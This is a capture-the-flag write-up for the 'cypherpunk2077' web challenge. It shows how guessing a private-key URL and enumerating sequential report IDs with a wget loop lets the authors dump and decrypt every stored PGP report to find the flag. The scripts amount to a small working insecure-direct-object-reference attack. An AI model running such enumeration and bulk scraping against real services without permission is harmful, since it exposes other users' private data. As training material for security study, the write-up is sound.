


# cypherpunk2077
Category: web

Points: 392

Solved by: hdesk, drw0if

## Problem

If you have found any bugs in latest AAA projects, please report them using this pretty good service.

[Link](http://tasks.kksctf.ru:30030/)
## Writeup

Starting the navigation we are greeted with two links:


[Report](http://tasks.kksctf.ru:30030/report)

[Keys](http://tasks.kksctf.ru:30030/keys)

Let's start with the second one: the page shows up only one entry:


[Public key](http://tasks.kksctf.ru:30030/keys/public)

whose content can be found in the [public](public) file. Guessing we changed the url to *private* and we found the private key too. The content can be found in the [private](private) file.

Let's move to the report funcionality. There is a textbox and a name. Let's try to sign a message with the public key and submit it via the form:

```bash
gpg --import private # to import the private key

echo 'test-string' > in.txt

gpg -u trust -a -e in.txt # with report as username

cat in.txt.asc
-----BEGIN PGP MESSAGE-----

hQGMAyDF2996B8eFAQv7B6DRQqwoWUA5I/QYsG/eIyt0ezFVIMXsvwc8B/LjqjaZ
DXrQnDZrRRLWoVPqlWvlVFkQCFPgxhHcwCKQEdhalwKTBwaJHTG9cuNo/RpAPfRP
ejxBJIDvRvmvjhgd9o2HiiW/8qlh/0U+y3lomiPDEsnzu52fXqkztJPSDHqS4v+E
RSGK8ZPDdSXMwo6Fgsp92RkZQGlhBAKZ6Yj5BElQaZwrc0T75RbvgKvsofhZ1ldw
taT2bFZezJc6EocGXfrxZQCK3JhNk/OHcl+qAgCPhcx+rAD41f4QDXeCBltDtMaF
7zqfjYZ09r04uV8PZLsUvsjlOPuXwYG8rtJrnPJ1v4BOj5rmZqTM5f4+uP1mPfwB
GnckG7NTHNpr5wmLaP3cy/eMax7x0dHkDRehOb0JUEQ7vufSEfbscu4BCL+2CLP+
lFqpJbb2ZQeblE+hxrQWTJFugrQ3h3aylN4GGctsyJR1L2YJ/0A6kQ8co3e0p5zt
Ce+MsqRGcEJOmEe1BEVK0k0B49Q/V8OvrhLkbxe8Qd/ScAe4x+m9ZRrnwHi3XGJE
0wFliGB20dttBjdFTAeH8iCgozP1LoYw7ayEPn4ufC5pAv5iCWSKejgdRzj7ag==
=79Cd
-----END PGP MESSAGE-----
```

Submitting this text we are moved to `http://tasks.kksctf.ru:30030/reports/3402`



Let's try to change the number:
`http://tasks.kksctf.ru:30030/reports/1`



Bingo we have different text. Let's dump the entire report database.

```bash
mkdir downloaded
for i in {1..3500};do
    wget http://tasks.kksctf.ru:30030/reports/$i -P downloaded
done
```

Let's extract the message with some regex:
```python
import sys
import re
import os

for l in os.listdir('downloaded'):
    with open(f'downloaded/{l}', 'r') as f:
        a = f.read()

    regex = r'(-----BEGIN PGP MESSAGE-----(.|\n)*-----END PGP MESSAGE-----)'
    result = re.findall(regex, a)

    with open(f'stripped/{l}', 'w') as f:
        f.write(result[0])

    print(l)
```

Let's decrypt them with the gpg tool itself:

```bash
for i in `ls extracted`; do
    gpg --decrypt extracted/$i 2> /dev/null 1>> out/dump
    echo '' >> out/dump
    echo $i
done
```

In the end checking the dump file we can easily locate the **real** flag:
```
kks{in_2077_what_makes_someon3_a_ctf_player7_getting_flag}
```